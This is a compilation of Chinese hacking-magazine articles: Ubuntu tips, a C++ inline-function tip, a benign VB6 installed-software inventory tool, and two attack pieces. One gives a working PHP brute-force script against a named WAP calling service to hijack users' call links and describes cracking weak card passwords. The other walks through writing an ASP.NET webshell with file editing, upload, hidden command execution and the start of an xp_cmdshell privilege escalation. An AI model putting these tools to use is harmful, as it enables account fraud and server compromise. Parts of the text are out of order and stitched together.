- Web 开发：Aptana，eclipse-wdt，zendstudio，lampp【在 Windows 下称 xampp】
- C 编程：gedit，eclipse-cdt，codeblocks

首先说一点，不推荐一个 eclipse 安装所有的插件，否则 eclipse 会跑得很慢很慢的。我觉得一般好一点的电脑，eclipse 中可以安装两个插件；如果电脑差一点的，那还是多占点磁盘空间，一个功能一个 eclipse。安装上了这些乱七八糟的软件之后，基本做网络开发和 C 开发是没有问题了。

## Tip12 Linux 系统初步

ln 命令的使用

Windows 下，我常常这么干：在环境变量 path 中添加一个路径，比如说 `e:/command`，然后在该文件夹下放常用软件的快捷方式，以后要启动软件就只需要按 `Win+R` 打开运行，输入软件名，确定就可以了。

Linux 下一般我们都可以用软件名来启动，尤其是通过源来安装的软件。但是那个从官网下载的 firefox 却碰到了问题，每次运行它都要这么麻烦。

用 ln 命令就可以避免。首先我们知道，在 `/usr/bin` 目录下的应用程序都是可以通过命令来启动的。首先切换到 `/usr/bin` 目录下，然后输入 `sudo ln -s /opt/firefox/firefox`，这样就可以了。`-s` 表示是软链接，跟 Windows 下的快捷方式类似，这样之后，以后就只要输入 firefox 就能启动 firefox 了。

打开方式

比如说我有一个 PDF 文档，但是每次打开它的都是 evince，可是我想让 Adobe Reader 打开，这该怎么办呢？

配置全局打开模式的是 `/etc/gnome/defaults.list`。

网上说 `user/.local/share/applications/defaults.list` 保存了个人的打开方式，但经过试验，发现不是，应该是 `user/.local/share/applications/mimeapps.list` 保存了个人的打开方式。`ls /usr/share/applications` 可以看到


> **一张字** 本期编程同样为广大普通读者献上了入门、进阶两种不同层次的文章。希望大家对这样的栏目、级别都能够喜欢。如果你是一名编程爱好者或者职业编程人员，都不要忘记给我们投稿或者写下你的读后感，以便让更多的读者能够分享到你的心得。

# inline 函数，让你的程序奔跑！

从本文您可以学到：

- 利用 inline 函数提高程序执行的效率

这篇文章主要写 inline 函数对程序的影响，对于暴力破解等重复工作量比较大的程序有较好的效果。inline 函数并不多见，它并不是一个真正的函数，而是函数前的修饰定义。比如我们要定义一个常量，那么在数据类型前加上 const，这个 inline 函数的位置就和 const 一样，在定义的函数数据返回符前边，是一个定义函数。

比如要定义一个判断函数：`int IsPassWord(char *Pass);`，用内联函数 inline 定义则为：`inline int IsPassWord(char *Pass)`。虽然内联函数定义很简单，但它的作用却非常大，可以加快程序执行速度。我们来做一个测试，在 Visual C++ 编译器中执行如下代码：

```cpp
#include<iostream.h>
#include<time.h>
#include<windows.h>
#include<winbase.h>
#include<string.h>

void test(void)
{
    clock_t start, end;
    start=clock();
    for(int i=0;i<100;i++)
        Sleep(3);
    end=clock();
    cout<<end-start<<endl;
}

void main(void)
{
    test();
}
```

然后在 `void test(void)` 前加上 `inline`，你会发现两次输出的时间不同，使用了内联函数的程序执行速度要快于不使用内联函数的程序。而这个函数中仅仅有一个 Sleep 延迟，如果放入复杂一些的函数，比如扫描器中的判断端口函数、密码暴力破解中的密码对比函数，那时间差就更大了，所以这个内联函数是值得使用的。

当然，这个函数也是有缺点的。使用内联函数会生成较大的文件，文件的体积会随着内联函数的增大而显著增大，所以内联函数适合使用量大而又很简单的函数，我们应仔细斟酌取舍，以使程序更加高效、完美。

> **编辑点评：** 这就是编程的艺术，利用不起眼的小技巧，大大提高程序的效率。

图2 defaults.list 的内容

```text
[Desktop Entry]
Name=Adobe Reader 9
MimeType=application/pdf;application/vnd.fdf;application/
Exec=acroread
Type=Application
GenericName=PDF Viewer
Terminal=false
Icon=AdobeReader9
Categories=Application;Office;Viewer;X-Red-Hat-Base;
InitialPreference=9
```

图3 acroread.desktop 的内容

出来很多 `.desktop` 的文件名，如图1。`gedit /etc/gnome/defaults.list` 可以看到如图2的数据。也就是说，文件类型关联着 `.desktop` 文件，而 `.desktop` 就会自动去运行某个应用程序。我要修改 `application/pdf=evince.desktop`，改成 `application/pdf=acroread.desktop`，那么下次自动打开 PDF 的就是 AdobeReader 了。打开 `acroread.desktop`，我们可以发现它和 AdobeReader 的关系，如图3。尤其注意看 Exec 这一行，原来它调用了 `acroread`，这正是 AdobeReader！

以上为一年多使用 Ubuntu 感想浅谈，虽不全面，希望对新手有用。最后推荐一个网站 `wiki.ubuntu.org.cn`，这上面有不少的入门材料。

> **编辑点评：** 系统装好之后自然是装软件了，现在 Ubuntu 的安装搞得和 Windows 一样简单了，那小菜的问题就是怎样选择合适的软件了。本文介绍了 Ubuntu 中最受欢迎的各类软件和一些需要注意的问题，如果你不知道如何选择，这是个很好的参考。

# 轻松统计软件安装情况

作者 fish

从本文您可以学到：

- 了解已安装软件在注册表中的位置
- 编程实现获取已安装软件列表
- 将列表导入 EXCEL 统一管理

最近公司实施软件正版化，需要统计各台机器软件安装的情况，以便根据统计结果进行采购。近千台机器，一台台跑，一台台检测，这不是要累死我们这些小兵吗？看来这样不行，得想个办法解决。

首先想到的是通过域策略进行发布，直接获取软件列表。可惜 google 了很久都没结果，最后找到一款可以获取当前机器已安装软件的程序——Everest，但需要远程连接，也是个麻烦。继续找，发现有篇文章提到了注册表 **HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall** 中保存了软件名称，只要遍历该注册表项下的所有子项，就可以获取已安装的软件名称，每个子项下的 DisplayName 即为软件名称，但也有些 DisplayName 项是空白或者根本就没有 DisplayName 这一项，这时就需要进行判断了。

这倒是个不错的方法，如果用程序实现，然后通过域发布，执行后自动将产生的列表文件 COPY 到指定的服务器上的共享文件夹中就 OK 了。有了想法就要立刻动手实现，继续往下看啊！

# 获取已安装软件列表程序的设计和编写

首先添加一列表框（ListBox），Name 属性为 lstSoftware，Sorted 属性为 True。这个列表框其实是为了偷懒，因为它已经提供了自动排序功能，免得小菜们为了数组排序再郁闷一回。

下面说一下具体的编写过程：

首先一定是变量的初始化，否则一些 API 在使用到未初始化的变量时会给出错误结果或直接崩溃，后果可是很严重的哦！接着就要打开 **HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall**，为遍历做准备。

打开成功就进行子项遍历获取 DisplayName 项的软件名称，同时进行判断是否为空，不为空则添加到列表框中。遍历全部完成后将列表框中已经排好序的软件名称连接到一字符变量中。

最后以“当前用户名@机器名_年月日_时分秒.txt”作为文件名写入 TXT 文件。这里要特别说明一下 RegEnumKey 这个本程序中关键的 API，其原型如下：

```vb
RegEnumKey Lib "advapi32.dll" Alias "RegEnumKeyA" (ByVal hKey As Long, ByVal dwIndex As Long, ByVal lpName As String, ByVal cbName As Long) As Long
```

其中，参数 hKey 为上面打开的注册表项的句柄。dwIndex 为需获取子项的索引，第一个子项的索引编号为零。lpName 用于装载指定索引处项名的一个缓冲区，这里获取的即每个软件的子项。cbName 为 lpName 缓冲区的长度。返回值如果为 0（ERROR_SUCCESS）表示成功，其他任何值都代表一个错误代码。

具体代码如下：

```vb
'设置主窗口不可见
Me.Visible = False
Dim hKey As Long '已打开注册表项句柄变量
Dim i As Long '循环变量
Dim SubKey As String '注册表项名变量
Dim SoftwareName As String '软件名变量
Dim SoftwareList As String '软件列表变量
'以NUL字符初始化注册表项名变量
SubKey = String$(256, Chr(0))
'以NUL字符初始化软件名变量
SoftwareName = String$(256, Chr(0))
'判断打开指定注册表项是否成功
If RegOpenKey(HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall", hKey) = ERROR_SUCCESS Then
    '成功就遍历获取其下的所有子项
    While RegEnumKey(hKey, i, ByVal SubKey, 256) = ERROR_SUCCESS
        '获取软件名
        SoftwareName = gisGetKeyStringValue(HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\" & Mid$(SubKey, 1, InStr(1, SubKey, Chr(0)) - 1), "DisplayName")
        '判断软件名是否不为空字符串或不存在
        If Len(SoftwareName) > 0 Then
            '是就添加到列表框中
            'If Asc(Right(Trim$(SoftwareName), 1)) = 0 Then
            '    SoftwareName = Mid$(SoftwareName, 1, InStr(1, SoftwareName, Chr(0)) - 1)
            'End If
            lstSoftware.AddItem SoftwareName
        End If
        '循环变量+1指向下一个子项
        i = i + 1
        '循环获取下一个软件名
    Wend
    '关闭打开的注册表项
    RegCloseKey hKey
End If
'利用列表框自动排序后生成软件列表
For i = 1 To lstSoftware.ListCount Step 1
    '判断是否为最后一行
    If i < lstSoftware.ListCount Then
        '不是就在软件名后添加回车
        SoftwareList = SoftwareList & lstSoftware.List(i - 1) & vbCrLf
    Else
        '是就不添加回车
        SoftwareList = SoftwareList & lstSoftware.List(i - 1)
    End If
Next
Dim Filename As String 'txt文件名变量
'确定txt文件名
Filename = Environ$("USERNAME") & "@" & Environ$("COMPUTERNAME") & "_" & Format(Date, "yy年mm月dd日") & "_" & Format(Time, "hh点mm分ss秒") & ".txt"
'设置错误陷阱，防止程序崩溃
On Error Resume Next
Dim FileNum As Integer '自由文件号
'获取自由文件号
FileNum = FreeFile()
'用二进制方式打开文件
Open Filename For Binary As FileNum
'将文件内容写入
Put FileNum, , SoftwareList
'关闭文件
Close FileNum
'退出程序
```

原本到这里程序就完成了，接下来只要域发布，用批处理将生成的 TXT 文件 COPY 到指定的共享文件夹中即可。可统计完后大批量的 TXT 文件不容易管理，而 EXCEL 恰恰为此做了个补充，那么就将每个 TXT 文件的内容作为一个工作表（Sheet）保存于 EXCEL 文件中吧。

不过手工操作既耗时又容易出错，因此还是用程序来实现，下面就看我如何将 TXT 批量导入 EXCEL 吧。

# TXT 批量导入 EXCEL 程序的设计和编写

还是先添加控件，列表框一个，Name 属性为 lstSoftware，Sorted 属性为 True。一个按钮（CommandButton），Name 属性为 cmdDo，Caption 属性为 Do it。还需引用 **Microsoft Excel 11.0 Object Library** 组件。

这里仍然使用列表框的自动排序功能，因为在获取 TXT 文件名时可能会出现乱序，需要自动排序来纠正。按钮原本是不需要的，因为编写之初测试时如果一开始就批量处理数据，会大大增加调试难度。下面来看一下具体的编写过程。

首先是程序的初始化，清空列表框，循环递归获取 TXT 文件名添加到列表框中。为了把程序、生成的 EXCEL 文档与 TXT 文件分开管理，这里指明只对 txt 文件夹下的所有 TXT 文件进行处理。如果 txt 文件夹中没有 TXT 文件，则给出提示并退出；存在则转入批量导入过程。

```vb
Me.Visible = False
Dim Filenames As String 'TXT文件名变量
'清空列表框
lstFilename.Clear
'获取 txt 文件夹中的第一个 txt 文件
Filenames = Dir(App.Path & "\txt\*.txt")
'判断上一次是否获取到 txt 文件
Do While Filenames <> ""
    '是就添加到列表框中
    lstFilename.AddItem Filenames
    '获取之后的 txt 文件，再次调用 dir 函数，此时可以不带参数
    Filenames = Dir
Loop
'判断是否获取到 txt 文件
If lstFilename.ListCount <= 0 Then
    MsgBox "TXT文件夹下没有文件可以用来生成EXCEL！", vbInformation
    End
Else
    Call cmdDo_Click
End If
```

程序初始化动作完成后下面就要动真格的了。首先还是需要定义及初始化变量，因为是要生成 EXCEL 文档，那么就要创建 EXCEL 对象。这里说一下 Visible 属性，此属性的作用是操作 EXCEL 时是否显示界面，False 为不显示，这可以大大提升处理速度。

接着新建一工作簿，将工作簿中默认的后两张表删除，第一张表改名，以便最后删除。再就是根据 TXT 文件名新建工作表，表名从文件名中提取，因为 EXCEL 的表名最大长度为 31 个字符，那么在创建的时候就需要判断，大于的话则取前 31 个字符。然后读入 TXT 文件，以行对应方式写入新建的表中，为了使以后查看方便，设置最适合的列宽。最后删除默认的第一张表，保存 EXCEL 文档，并给出文件保存信息的提示。

不要以为到此就完成了，必须释放相应的 EXCEL 对象，一是让系统回收资源，二是为了之后的程序不出错；这一步相当重要。

代码如下：

```vb
Dim ExcelApp As Excel.Application 'EXCEL应用程序对象变量
Dim ExcelBook As Excel.Workbook 'EXCEL工作簿对象变量
Dim ExcelSheet As Excel.Worksheet 'EXCEL工作表对象变量
Dim SheetName As String 'EXCEL工作表名变量
Dim m As Integer 'txt文件循环变量
Dim n As Integer 'EXCEL工作表循环变量
Dim FileContent As String '存放读取的 txt 文件内容
Dim FileNum As Integer '自由文件号
Dim FileName() As String '电脑已安装程序的变量数组

'创建EXCEL对象
Set ExcelApp = CreateObject("Excel.Application")
'设置EXCEL对象不可见，以提高生成速度
ExcelApp.Visible = False
'设置EXCEL文件标题
ExcelApp.Caption = "电脑安装软件统计列表"
'添加一个工作簿
Set ExcelBook = ExcelApp.Workbooks.Add
'给第一张工作表重命名
ExcelBook.Worksheets(1).Name = "预留表"
'删除第三张工作表
ExcelBook.Worksheets(3).Delete
'删除第二张工作表
ExcelBook.Worksheets(2).Delete
'打开名为“预留表”的工作表，即现在的第二工作表
Set ExcelSheet = ExcelBook.Worksheets("预留表")
'关闭EXCEL工作表对象
Set ExcelSheet = Nothing

For m = 1 To lstFilename.ListCount Step 1
    '新建一个EXCEL工作表
    ExcelBook.Sheets.Add
    '根据txt文件名确定新建的EXCEL工作表名
    SheetName = Mid(lstFilename.List(m - 1), 1, InStr(1, lstFilename.List(m - 1), ".") - 1)
    'EXCEL工作表名最长为31个字符，因此需要判断确定的EXCEL工作表名长度是否超过；超过则获取前31个字符
    If Len(SheetName) > 31 Then SheetName = Left(SheetName, 31)
    '将新建的EXCEL工作表重命名
    ExcelBook.Worksheets(1).Name = SheetName
    '打开刚建立的EXCEL工作表
    Set ExcelSheet = ExcelBook.Worksheets(SheetName)
    '获取自由文件号
    FileNum = FreeFile
    '打开当前 txt 文件
    Open App.Path & "\txt\" & lstFilename.List(m - 1) For Binary As #FileNum
    '根据 txt 文件大小填充变量
    FileContent = Space(LOF(FileNum))
    '读取 txt 文件内容
    Get #FileNum, , FileContent
    '关闭文件
    Close #FileNum
    '以回车为关键字分割各行
    FileName = Split(FileContent, vbCrLf)
    '循环将各行已安装程序名称写入EXCEL工作表对应的单元格
    For n = 1 To UBound(FileName) Step 1
        ExcelSheet.Cells(n, 1) = FileName(n)
    Next
    '自动调整列宽
    ExcelSheet.Cells.EntireColumn.AutoFit
    '关闭EXCEL工作表对象
    Set ExcelSheet = Nothing
'下一个 txt 文件
Next
'删除名为“预留表”的工作表，即原第一工作表
ExcelBook.Worksheets(Worksheets.Count).Delete
'以相应格式为文件名保存当前EXCEL工作簿
ExcelBook.SaveAs (App.Path & "\SoftwareList_" & Format(Date, "yyyymmdd") & ".xls")
```

```vb
vb
"yyyymmdd") & ".xls")
' 关闭当前EXCEL工作簿
ExcelBook.Close (True)
' 结束EXCEL应用程序对象
ExcelApp.Quit
' 释放Excel应用程序对象
Set ExcelApp = Nothing
' 给出完成提示
MsgBox "完成！" & vbCrLf & "文件保存在：" & vbCrLf & App.Path & _
"\SoftwareList (" & Format(Date, "yyyymmdd") & ").xls", vbInformation
' 退出程序
End
```

至此，所有程序完成，下面我们来看看测试结果。以1000个TXT文件、每个文件200行为例，在我的Athlon 3000+（单核）+1GB配置的电脑上运行的时间为2分钟，速度还是不错的，有需要的虾米们不妨一试。以上两段代码在XP SP3+VB6 SP6+Office 2003测试通过。

> （文章中所涉及的相关代码已经收录在本期光盘）

**编辑点评：**

本文虽然是一篇和“黑”完全无关的文章，但在实际使用中解决了需要耗费大量时间和人力才能处理的问题。有问题就要解决问题，这样才能发挥程序的最大作用，这样才会使小菜慢慢转变为大侠，这样才能节省我们宝贵的时间来干“私活”。呵呵，说着玩的。

## 飞话——藏在WAP下的安全隐患

图 白开

从本文您可以学到：
- 分析飞话漏洞的原理
- 利用PHP进行弱口令的猜解

实习后，周围连个像样的话吧都没有，为了节省话费，不少同学用起了飞话。飞话能连接互联网、移动网及电话网，通过它可以随时随地地进行两方或多方通话，更重要的是飞话的资费要便宜很多。但经过测试后发现，利用WAP技术的飞话存在比较严重的安全隐患。

## 原理分析

在介绍漏洞之前，我们先看一下飞话的使用方法。购买一张飞话卡后，可以得到卡号和密码，然后通过手机登录飞话网站的页面 http://wap.fehua.com/31130/inv/reg.wml 进行注册，如图1所示。

注册之后，服务器会将你的手机号与此飞话号码进行绑定，然后返回一个链接，我们可以将这个链接存为书签，以后打开此链接即可进行通话，很方便，如图2所示。

但问题就出在这个链接上，因为并不是只有绑定的手机才能打开此链接，任何能上网的手机都可以访问。换句话说，你只要知道这个链接地址，就可以让该用户绑定的手机号拨打任何人的电话。

接下来我们看看这个链接地址，它的形式为：http://wap.fehua.com/31130/******（此为7个数字），最容易想到的办法是对这7个数字进行暴力破解。不过破解起来是相当困难的，因为最多可能需要测试的次数为10的7次方，一个链接可能几个小时都出不来结果。但仔细研究这个地址，还是有规律可循的。

在这7位数字中，有4位是飞话卡号的后4位。如果我的飞话号码后4位为2021，那么上一个用户的飞话号码后4位为2020，则这个7位数的形式就是2*0*2*0，最多猜解1000次就能得出结果，这下暴破就容易多了。


## 漏洞利用

虽然难度降下来了，但我们不可能在手机上完成上百次的猜解，因此首要任务是把“战场”转移到电脑上。说到这儿，有必要补充一下WAP网站的相关知识。

对于WAP站点，大家可能有些陌生，其实一个WAP网站的搭建和普通的WWW网站并无太大差别，我们熟悉的IIS完全可以胜任，只需在MIME添加上 .wml 支持即可，可以说WAP网站也是存在于Internet中的。

手机访问WAP网站要先通过WAP协议接入移动通信网，然后移动通信网与Internet相连，这样手机就可以找到Internet中的内容了。如此说来，一个WAP网站完全可以在连接了Internet的电脑上进行访问。

> 你可能会问，那为什么我用IE浏览器无法打开 http://wap.fehua.com 这个站点呢？这就涉及到了WAP的脚本语言。为了便于页面的传输，WAP网站采用的脚本语言主要有两种：WML语言和XHTML MP语言，其中的XHTML MP是XHTML的子集，用IE浏览器即可解析，比如 http://wap.baidu.com 就可以用IE浏览器直接访问。而WML只能被WAP浏览器解析，网站 http://wap.fehua.com 用的就是这种语言，因此，用IE访问只会将网页完整地下载下来，而不能显示。至于有些网站，如 http://wap.qq.com，只能在手机上访问而不能在电脑上访问，那是因为网站对访问的IP地址做了限制，我们姑且不去讨论它。

为了解析WML语言，我用到了WINWAP这款浏览器，界面如图3所示。

猜解链接时，利用 http://wap.fehua.com/31130/chargeprocess.php/2*2*0 这个地址即可。如果七位数正确会返回飞话卡的余额，不正确的话会返回错误提示，如图4、图5所示。

为了减少重复的手工操作，我编写了一个PHP下运行的工具，猜解原理有点像注入，先用WinSock Expert抓取数据包，然后不断地变换剩下的三个数，直到猜出正确的链接地址，以下是利用程序的代码：


```php
<?php
ini_set("error_reporting", "E_ALL & ~E_NOTICE");
ini_set("max_execution_time", 0);

// 这里分别是飞话账号的后四位
$num1=2;
$num2=0;
$num3=2;
$num4=0;

for ($unknow1=0; $unknow1<10; $unknow1++) {
    for ($unknow2=0; $unknow2<10; $unknow2++) {
        for ($unknow3=0; $unknow3<10; $unknow3++) {
            $num=$num1.$unknow1.$num2.$unknow2.$num3.$unknow3.$num4;
            echo $num, " is being tested\r\n";
            SendData($num);
        }
    }
}

// 发送数据包函数
function SendData($num){
    $fp = fsockopen("wap.fehua.com", 80, $errno, $errstr, 30);
    if (!$fp) {
        echo "$errstr ($errno)<br />\n";
    } else {
        $out = "GET /31130/chargeprocess.php/".$num." HTTP/1.1\r\n";
        $out .= "Accept: */*\r\n";
        $out .= "Accept-Language: zh-cn\r\n";
        $out .= "Accept-Encoding: gzip, deflate\r\n";
        $out .= "User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; Scent)\r\n";
        $out .= "Host: wap.fehua.com\r\n";
        $out .= "Connection: Close\r\n\r\n";
        fwrite($fp, $out);
        while (!feof($fp)) {
            $data .= fgets($fp, 128);
        }
        // 文件要保存为UTF-8的格式，否则strpos()函数找不到字符串
        if (strpos($data, '话费余额')) {
            echo "i find it\r\n";
            exit(0);
        } else {
            echo "not find\r\n";
        }
        fclose($fp);
    }
}
?>
```

虽然PHP的速度不是很快，但由于只有三位，很快就得到了结果，如图6所示。


## 弱口令扫描

上面的漏洞只会给飞话用户带来骚扰，我们能不能爆破飞话用户的密码，从而盗取飞话卡号呢？飞话卡在购买后的默认密码是8位随机数字，破解难度要比上面的大得多。本来我已经打消了爆破的念头，但舍友的一句话提醒了我，他说由于密码过于难记，他就改成了123。我想这样的用户绝对不在少数，于是编写了破解密码的程序，果真爆出了弱口令，如图7所示。

看来存在弱口令的卡号不仅有，而且很多。程序的编写方法与上面的大同小异，我就不贴代码了，利用的是查询话费的页面：http://wap.fehua.com/31130/nv/charge.wml，密码正确和错误显示的内容分别如图8、图9所示。


### 总结

总体来说，这两个漏洞的危害性还是很大的。飞话利用了WAP技术，很先进，但也正是因为连接了Internet，环境变得复杂得多，毕竟一个新生事物在与网络连接后，安全就得重新定义。飞话给学生带来了实惠，是个好东西，不过好的东西也要注意安全问题，不然受损失的还是那些本来就不富裕的学生。

（文章中所涉及的相关代码及工具都已经收录在本期光盘）

> 编辑点评：本文既是一篇漏洞破解的好文，也是一篇利用程序实现密码破解的好文，简简单单地使原本看似安全的新新事物漏洞百出。


# ASP.NET Web BackDoor 编写原理

从本文您可以学到：
- 了解C#的简单语法
- 使用各种技巧在C#的基础上进行开发

话说在一次入侵ASPX网站过程中，上传ASPX木马总是被杀！无奈之下上传了ASP木马才得以拿下了webshell。如今ASPX木马也出了不少，可是免杀的却不多了，而且功能比较参差，也没有ASP木马那么强。正好自己一直在用C#，于是就想自己编写个木马，一来为了总结知识，二来为了方便自己和大家。好了，废话不多说了，进入正题吧。

## 编写过程

Web后门当然要实现列出服务器盘符、文件以及实现上传下载等常见的后门功能，方便对空间的管理操作。原理性大家都很了解，我就不多说了。

由于.NET默认情况下Html页和Code页是分开的，而因为我们写程序的特殊性，所以要将它们放在一个页面写。这和传统的ASP很类似，如果你有ASP基础的话对此就不会陌生。

首先引入命名空间，在cs页面用“using System.IO;”，而在ASPX页面中需要写成“<%@ Import Namespace="System.IO" %>”。在Page_Load事件中要获取盘符，这里我用导航控件TreeView，如图1所示。


以下是获取盘符的代码：

```csharp
TreeNode tr = new TreeNode("本地硬盘");    // 指明名称
TreeView1.Nodes.Add(tr);
TreeView1.ExpandAll();
DriveInfo[] getdr = DriveInfo.GetDrives();
{
    foreach (DriveInfo dr in getdr)
    {
        TreeNode td = new TreeNode(dr.Name.ToString());
        tr.ChildNodes.Add(td);   // 添加到子节点
    }
    for (int i = 0; i < TreeView1.Nodes.Count; i++)
    {
        TreeView1.Nodes[i].Expanded = false;
    }
}
```

首先用DriveInfo.GetDrives()获取信息后存放到数组中，利用foreach循环出所有的盘符，并且用dr.Name.ToString()属性获取名称添加到了子节点中，最后用TreeView1.Nodes[i].Expanded = false关闭所有的子节点。

接下来写个过程用于方便调用，该过程获取所选择目录下所有文件和文件夹，代码如下：

```csharp
public void getspyrootfolder(string getfolderstr)
{
    try
    {
        Label2.Visible = true;
        Label2.Text = "<a href='?action=showfolder&folder=" +
        Directory.GetParent(getfolderstr) + "'>返回上级目录</a>" + "<br><br>";
    }
    catch (Exception lb)
    {
        Response.Write("目录不存在！");
        Response.Write(lb.Message.ToString());
    }
    if (Directory.Exists(getfolderstr) == true)
    {
        foreach (string allfile in Directory.GetFileSystemEntries(getfolderstr))
        {
            int getfilex = allfile.LastIndexOf("\\") + 1;
            string getdrname = allfile.Substring(getfilex, allfile.Length - getfilex);
            if (getdrname.Length > 50)
            {
                getdrname = getdrname.Substring(0, 50) + "...";
            }
            if (Directory.Exists(allfile) == true)
            {
                ..........省略
            }
            else
            {
                ..........省略
            }
        }
    }
}
```

代码中用Directory.GetFileSystemEntries(str)获取目录下所有的子文件和子目录，所以在接下来的代码中继续对获取的数据进行判断，如果是目录就递归循环，否则就显示出文件，如图2所示。

上面就是一个简单的循环，当进入子目录的时候继续调用此函数即可。接下来是读取文件内容的代码：


```csharp
public void getwebfile(string getfilestr)
{
    try
    {
        edipath.Text = getfilestr;
        StreamReader sr = new StreamReader(getfilestr, Encoding.Default);
        getcontent = sr.ReadToEnd();
        sr.Close();
        sr.Dispose();
    }
    catch (Exception ex)
    {
        Response.Write(ex.Message.ToString());
        return;
    }
}
```

当选择“编辑”时进入修改状态，代码中主要是用到StreamReader对象读取文件内容。编辑修改完毕，我们可以点击“保存”按钮，相关代码如下：

```csharp
protected void Button1_Click(object sender, EventArgs e)
{
    string site;
    string getpath = edipath.Text;
    int ofilex = getpath.LastIndexOf(@"\") + 1;   // 判断文件名
    site = getpath.Substring(0, ofilex);
    StreamWriter sw = new StreamWriter(getpath, false, Encoding.Default);   // 选择默认编码
    sw.Write(filecontent.Text);
    Response.Write("<script>alert('保存成功！');location.href='?action=showfolder&folder=" + @site.Replace(@"\", "%5c") + "'</" + "script>");
    sw.Close();
    sw.Dispose();
    Response.End();
}
```

代码中主要是利用到StreamWriter对象操作数据，最后利用Write属性写入。接下来是“重命名”操作，代码如下：

```csharp
protected void Button2_Click(object sender, EventArgs e)
{
    try
    {
        FileInfo fi = new FileInfo(getname);
        fi.MoveTo(refilename.Text.Trim());   // 给定路径
        int filetx = getname.LastIndexOf("\\") + 1;
        string site = getname.Substring(0, filetx);
        Response.Write("<script>alert('重命名成功！');location.href='?action=showfolder&folder=" + @site.Replace(@"\", "%5c") + "'</" + "script>");
    }
    catch (Exception x)
    {
        Response.Write(x.Message.ToString());
        Response.End();
    }
}
```

代码中获取一个FileInfo对象，利用其MoveTo属性重命名。

# 快码加编

下面来处理“下载”功能，大家都知道，在 ASP 中下载用 “Adodb.Stream” 对象，在 .NET 中用以下代码即可：

```csharp
FileInfo fi = new FileInfo(downfilestr);
Response.Clear();
Response.ClearHeaders();
Response.Buffer = false;
Response.ContentType = "application/octet-stream";
Response.AddHeader("Content-Disposition", "attachment; filename=" + HttpUtility.UrlEncode(fi.Name, System.Text.Encoding.UTF8));
Response.AppendHeader("Content-Length", fi.Length.ToString());
Response.WriteFile(fi.FullName);
Response.Flush();
```

上面的代码和 ASP 下载文件差别不大，“删除”功能的代码很简单，在这里就不再贴了，用 File.Delete 属性就可以删除服务器上的文件。

对于删除目录，难度稍微大点，既然都能递归文件了，想删除目录也就不难了，因为在目录不为空的时候会提示“由于目录不为空，不能被删除”，所以要先将目录中的所有文件删除掉，包括子目录和子文件，关键代码如下：

```csharp
if (Directory.Exists(delfolderstr) == true)
{
    foreach (string fod in Directory.GetFileSystemEntries(delfolderstr))
    {
        if (Directory.Exists(fod))
        {
            getdelfolder(fod);
        }
        else
        {
            File.Delete(fod.ToString());
            // 删除文件
        }
    }
    Directory.Delete(delfolderstr); // 目录下所有文件搞定，删除目录
}
```

上述代码中用递归循环出所有的目录，如果是文件的话就用 File.Delete 属性删除，最后删除目录即可。对于“查找木马”以及“清除挂马”和“批量挂马”，这三个功能原理上都差不多，都是一个递归循环判断的问题，在这里就不一一贴代码了。

“上传文件”的功能在大部分 ASPX 网站中都有，只不过这里写的功能不需要加任何验证码缓冲的操作，直接保存到盘符就好了。我们这里需要用到 FileUpload 控件，代码如下：

```csharp
try
{
    string pathfile;
    pathfile = savefile.Text.Trim();
    if (pathfile == "")
    {
        Response.Write("请输入绝对路径！");
        Response.End();
    }
    else if (FileUpload1.PostedFile.FileName.ToString() == "")
    {
        Response.Write("请选择上传文件！");
        return;
    }
    else
    {
        string getfilename = pathfile.Substring(0, pathfile.LastIndexOf("\\") + 1);
        FileUpload1.PostedFile.SaveAs(pathfile);
        ............省略
    }
}
catch (Exception ex)
{
    Response.Write(ex.Message.ToString());
    Response.End();
}
```

代码中判断了有没有写保存的位置，默认的位置是本程序目录下，如果符合条件就继续对文件的名称存做判断，如果为空则说明没有文件。

当然，这里也只是简单地做了下判断，其实应该获取长度，如果为 0，则没有选择文件，上传失败。代码的最后是利用 FileUpload1.PostedFile.SaveAs 属性将文件保存到绝对路径。

在 ASP 中，可利用服务器组件 Wscript.Shell 执行 DOS 命令，而在 .NET 中利用 Process 类就可以轻松执行 DOS 命令，主要代码如下：

```csharp
Process pr = new Process();   // 建立一个新的 Process 类
pr.StartInfo.FileName = cmdurl.Text;
// 启动的文件名
pr.StartInfo.RedirectStandardOutput = true;   // 设置为 TRUE，可以用 Stream 对象读取
pr.StartInfo.UseShellExecute = false;
pr.StartInfo.Arguments = "/c " + cmd.Text.Trim();
pr.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
pr.Start();
StreamReader osr = pr.StandardOutput;
ocmd = osr.ReadToEnd();
cmdshow.Text = ocmd;
osr.Close();
osr.Dispose();
```

代码 `StreamReader osr = pr.StandardOutput;` 读取数据流，最后显示在文本框中。几句代码就实现了强大的 DOS 功能，不得不佩服 .NET 的高效性，如图 3 所示。


在 .NET 中利用 Process 类还可以查看系统当前进程，利用 `Process.GetProcesses()` 功能方法获取进程数组，用 foreach 循环出所有的对象，再获取对象的名称添加到 ListBox 控件中。如果启动一个 ASP.NET 用户的进程，这个时候我们可以结束它，但不能结束 administrator 或 System 权限启动的进程，否则会提示拒绝访问，说明权限不足。代码如下：

```csharp
Process[] kp = Process.GetProcesses();
foreach (Process kp1 in kp)
{
    if (kp1.ProcessName == ListBox1.SelectedValue.ToString())
    {
        try
        {
            kp1.Kill();
            Response.Write("<script>alert('成功结束该进程！');location.href='?'</script>");
            listBox1.Items.Clear();
        }
        catch (Exception x)
        {
            Response.Write(x.Message.ToString());
            Response.End();
        }
    }
}
```

代码中利用 Process 对象的 `Kill()` 方法杀死选中的进程名，如图 4 所示。


既然是 Web 木马，当然不能少了 SQL SERVER 提权了，如今很多主机都安装了 MSSQL，所以有必要加强这里的功能。以往的 ASP 木马只是加入了常见的提权方法，不过在大多数情况下也够用。首先来编写利用 XP_CMDSHELL 存储过程执行 DOS 命令的代码：

```csharp
string connstr = "server=." + getport + ";User ID=" + sqlname.Text.Trim() + ";Password=" + sqlpass.Text.Trim();
SqlConnection conn = new SqlConnection(connstr);
conn.Open();
SqlCommand cmd;
SqlDataReader dr;
string sqlexist = "select count(*) from master.dbo.sysobjects where xtype='X' and name='XP_CmdShell'";
cmd = new SqlCommand(sqlexist, conn);
